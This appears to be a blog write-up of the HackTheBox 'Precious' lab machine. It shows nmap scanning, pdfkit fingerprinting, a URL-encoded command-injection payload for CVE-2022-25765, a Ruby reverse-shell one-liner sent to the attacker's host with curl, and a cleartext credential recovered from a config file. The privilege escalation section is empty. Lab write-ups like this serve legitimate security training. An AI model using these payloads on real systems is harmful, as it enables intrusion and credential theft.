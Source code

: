 ```yaml
---
layout: post
title: Precious
date: 2025-02-9 14:03 +0100
author: lone
description:
image:
category: HackTheBox
tags: htb box writeup
published: true
sitemap: false
---
```


## Inital access

```bash
nmap -T4 -p- -min-parallelism 40 10.10.11.XXX
```
![Nmap Scan TCP](/assets/img/precious/scantcp.png)

```bash
echo "10.10.11.XXX precious.htb" | sudo tee -a /etc/hosts
```

Let's take a look at the website.

![Precious Website](/assets/img/precious/website.png)

It looks like you can convert web pages to pdf, but the machine only seems to have access to the internal network. Let's host a web page quickly to analyze the pdf.

```bash
exiftool u3oysnv[...]d00u0qq.pdf

ExifTool Version Number         : 12.76
[...]
Creator                         : Generated by pdfkit v0.8.6
```
pdfkit v0.8.6 seems to be vulnerable to a command injection ([CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)) 
Let's try it out this payload

`http://10.10.XX.XX:80/?name=%20\`whoami\``

We URL Encode it before sending it
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'url=http%3A%2F%2F10.10.XX.XX%3A80%2F%3Fname%3D%2520%60whoami%60'
```

And we receive a response on our server :

```bash
10.10.11.XXX - - [XX/XX/XX XX:XX:XX] "GET /?name=%20ruby HTTP/1.1" 200 -
```

Time to craft ourselves a reverse shell ! 
Let's setup a listenner :
```bash
pwncat-cs -p 6667
```

```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))'
```

We replace whoami by this new payload
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d "url=http://10.10.XX.XX/?name=%2520%60ruby%20-rsocket%20-e'spawn(%22sh%22,%5B:in,:out,:err%5D=%3ETCPSocket.new(%2210.10.XX.XX%22,XXXX))'%60"
```

![Reverse Shell](/assets/img/precious/reverseshell.png)

There is a .bundle in the home directory of our user ruby. Let's investigate :

![Ruby Conf file](/assets/img/precious/rubypivottohenry.png)

Clear text password for the user henry ! And with this we got our first flag :

![First Flag](/assets/img/precious/henryflag.png)

## Privilege escalation

